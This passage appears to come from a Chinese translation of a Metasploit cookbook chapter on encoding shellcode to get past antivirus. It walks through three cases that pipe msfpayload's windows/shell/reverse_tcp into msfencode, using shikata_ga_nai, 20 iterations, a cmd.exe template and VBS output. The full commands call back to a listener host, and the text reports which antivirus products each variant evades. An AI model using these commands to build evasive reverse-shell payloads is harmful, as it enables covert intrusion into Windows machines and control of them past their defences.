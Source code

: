 框架中有很多不同的编码器，每个编码器都使用不同的技术来混淆外壳代码。 `shikata_ga_nai`编码技术实现了多态异或加性反馈编码器。基于动态指令替换和动态块排序生成解码器存根。寄存器也是动态选择的。

## 怎么做。。。

我将这个配方分为三个不同的案例，以便更好地理解我们如何能够深入挖掘这个有用的工具并开发我们自己的逻辑。

**案例 1:**我们将从编码一个简单的 shell 开始。 `msfpayload`和 `msfencode`命令将通过管道连接在一起。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 R | msfencode -e cmd/generic_sh -c 2 -t exe > .local/encoded.exe
[*] cmd/generic_sh succeeded with size 290 (iteration=1)
[*] cmd/generic_sh succeeded with size 290 (iteration=2) 
```

让我们了解一下命令行。我们使用了 `windows/shell/reverse_tcp`shell，并使用 `R`参数生成了一个原始文件类型。然后，我们通过管道传输 `msfencode`命令。 `e`参数用于确定编码样式，在本例中为 `cmd/generic_sh`。 `c`参数表示迭代次数， `t`参数表示编码后要创建的文件类型。最后在 `.local`文件夹中创建文件，文件名为 `encoded.exe`。当 `encoded.exe`文件用于对我们的两个目标进行客户端攻击时，Windows XP（使用 AVG 10）和 Windows 7（使用 NOD32）很容易将其识别为威胁。它可能为我们提供了外壳连接，但该活动已被防病毒软件阻止。

**案例 2:**现在我们将通过向 shell 中添加默认的 windows exe 模板以及增加编码的迭代次数来增加此编码的复杂性。默认模板将通过将外壳代码与默认 Windows 可执行文件之一（如 `calc.exe`或 `cmd.exe`）绑定，帮助我们创建可疑程度较低的文件。Windows 模板位于文件夹 `/opt/framework3/msf3/lib/msf/util/../../../data/templates`中。

通过复制此文件夹中的任何默认 Windows 可执行文件，然后将其用作模板，可以创建模板。在这个食谱中，我将 `cmd.exe`复制到这个文件夹中，作为我的 shell 的模板。那么，在这种情况下，我们的命令行会是什么样子呢？

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 R | msfencode -e x86/shikata_ga_nai -c 20 -t exe -x cmd.exe> .local/cmdencoded.exe 
```

本例中唯一的额外参数是 `-x`，用于指定备用可执行模板。我们使用了 `cmd.exe`作为模板，这是命令提示符的默认 windows 可执行文件。我们还将编码样式更改为 `shikata_ga_nai`，在 `msfencode`中排名为“优秀”。在这种情况下，迭代次数也增加到了 20 次。本例中创建的可执行文件看起来像一个 `cmd.exe`可执行文件（因为模板），它很容易绕过运行 AVG 10 antivirus 的 Windows XP 目标的客户端防病毒保护。不幸的是，它在运行最新版本 NOD32 的 Windows 7 目标上被检测为威胁。因此，它可以用来绕过运行在 Windows 计算机上的旧版本。使用此技术的第二个问题是，它无法在 Windows 7/Server 2008 计算机上启动 shell，即使这些计算机具有较旧的防病毒保护。外壳代码在执行时崩溃（因为模板），即使它绕过了防病毒程序，仍然无法在较新版本的 Windows 上启动外壳。

**案例 3:**本案例将克服我们在案例 2 中面临的缺点。在本例中，我们将生成一个客户端脚本，而不是一个可执行文件。众所周知的 Windows 平台客户端脚本是 visual basic 脚本（`.vbs`。此技术可用于绕过迄今为止在最新版本的 Windows 上运行的任何防病毒软件。VB 脚本之所以成为绕过防病毒的潜在武器，是因为它们从未被防病毒程序视为威胁，这也是它们的签名与 VB 脚本文件不匹配的原因。让我们使用 `msfpayload`和 `msfencode`创建一个恶意 VB 脚本。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 r | msfencode -e x86/shikata_ga_nai -c 20 -t vbs > .local/cmdtest2.vbs
[*] x86/shikata_ga_nai succeeded with size 317 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 344 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 371 (iteration=3)
.
.
.
.
[*] x86/shikata_ga_nai succeeded with size 803 (iteration=19)
[*] x86/shikata_ga_nai succeeded with size 830 (iteration=20) 
```
